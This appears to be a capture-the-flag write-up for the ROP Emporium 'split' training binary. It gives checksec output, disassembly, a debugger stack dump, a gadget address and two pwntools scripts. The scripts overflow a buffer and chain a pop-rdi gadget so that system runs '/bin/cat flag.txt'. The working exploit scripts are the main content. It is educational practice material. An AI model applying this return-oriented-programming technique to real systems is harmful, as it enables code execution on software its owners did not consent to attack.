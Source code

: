 # split(ROP Emporium 2)

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### Solution
`usefulFunction`: run `system` with `/bin/ls` string.
```asm
0000000000400742 <usefulFunction>:
  400742:	55                   	push   rbp
  400743:	48 89 e5             	mov    rbp,rsp
  400746:	bf 4a 08 40 00       	mov    edi,0x40084a
  40074b:	e8 10 fe ff ff       	call   400560 <system@plt>
  400750:	90                   	nop
  400751:	5d                   	pop    rbp
  400752:	c3                   	ret
  400753:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  40075a:	00 00 00 
  40075d:	0f 1f 00             	nop    DWORD PTR [rax]
```
there is `/bin/cat flag.txt` string at `0x601060`.
```shell
pwndbg> search -t string "/bin/cat flag.txt"
Searching for string: b'/bin/cat flag.txt\x00'
split           0x601060 '/bin/cat flag.txt'
```

after read, stack:
```
00:0000│ rsi rsp 0x7fffffffdc40 ◂— 0xa6161616161 /* 'aaaaa\n' */
01:0008│-018     0x7fffffffdc48 ◂— 0
... ↓            2 skipped
04:0020│ rbp     0x7fffffffdc60 —▸ 0x7fffffffdc70 ◂— 1
05:0028│+008     0x7fffffffdc68 —▸ 0x4006d7 (main+64) ◂— mov edi, 0x400806
06:0030│+010     0x7fffffffdc70 ◂— 1
07:0038│+018     0x7fffffffdc78 —▸ 0x7ffff7dd8d68 (__libc_start_call_main+120) ◂— mov edi, eax
```

ROP gadget
```
0x00000000004007c3 : pop rdi ; ret
```

#### Strategy
1. push `0x601060` to `rdi`
2. call `0x40074b` (`usefulFunction`)

### Script
```python
from pwn import *

conn = process('./split')

payload = b'A'*40
payload += p64(0x4007c3)
payload += p64(0x601060)
payload += p64(0x40074b)

conn.sendafter('> ', payload)
conn.interactive()
```

if use pwntools `ELF` module, it can be more readable.
```python
from pwn import *

elf = ELF('./split')
rop = ROP(elf)

conn = process('./split')

print(type(rop.rdi.address))

payload = b'A'*40
payload += p64(rop.rdi.address)
payload += p64(next(elf.search(b'/bin/cat flag.txt')))
payload += p64(0x40074b)

conn.sendafter('> ', payload)
conn.interactive()
```